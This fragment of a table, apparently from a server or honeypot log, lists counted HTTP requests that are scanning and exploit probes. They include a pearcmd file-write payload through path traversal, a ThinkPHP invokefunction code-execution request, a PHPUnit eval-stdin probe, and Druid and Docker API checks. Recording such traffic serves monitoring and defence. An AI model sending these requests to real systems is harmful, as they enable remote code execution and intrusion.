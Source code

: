 |  17 |                     6 | GET /druid/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  18 |                     6 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  19 |                     6 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  20 |                     6 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  21 |                     6 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  22 |                     6 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |